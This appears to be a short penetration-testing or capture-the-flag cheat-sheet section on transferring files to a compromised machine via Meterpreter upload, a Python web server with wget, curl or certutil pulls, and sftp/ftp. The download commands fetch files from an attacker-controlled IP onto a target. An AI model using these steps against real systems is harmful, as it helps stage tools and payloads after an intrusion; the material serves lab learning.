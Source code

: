 4. File transfer

### Using metasploit:
1. Upgrade to a meterpreter shell if you haven't already
2. use the meterpreter `upload` command
3. That's it!

### Using python web server
1. On your computer in the directory you have the files in, do `sudo python -m SimpleHTTPServer 80` for python2 or `sudo python3 -m http.server 80`. If you visit `localhost` in your browser, you should see the listing of files
2. On the remote machine, run `wget ip/file -O file`, `curl ip/file -o file` for linux or `certutil -urlcache -f http://IP/file file`
3. Done!

### Using sftp (if you have ssh access to a machine)
1. Connect to the machine using ssh except replace ssh with sftp, like `sftp -i id_rsa burturt@panda.thm`
2. ENABLE BINARY TRANFER USING `binary`
3. Use the `put` command to upload files, `get` to download files, `cd` and `ls` to show files.
	- If you are getting weird errors about a port command, try passive mode with `passive`
	- sftp has a recursive get/put flag, like `get -r FOLDER`
4. Done! Note that sftp does NOT allow file execution (unless there is a vulnerability in sftp/ssh by itself) but can be coupled with something like a web server to run a php file for instance

### Using ftp (if you have ssh access to a machine)
1. Connect to the machine using ftp IP like `ftp panda.thm`
2. ENABLE BINARY TRANFER USING `binary`
3. Use the `put` command to upload files, `get` to download files, `cd` and `ls` to show files.
	- If you are getting weird errors about a port command, try passive mode with `passive`
4. Done! Note that ftp does NOT allow file execution (unless there is a vulnerability in ftp by itself) but can be coupled with something like a web server to run a php file for instance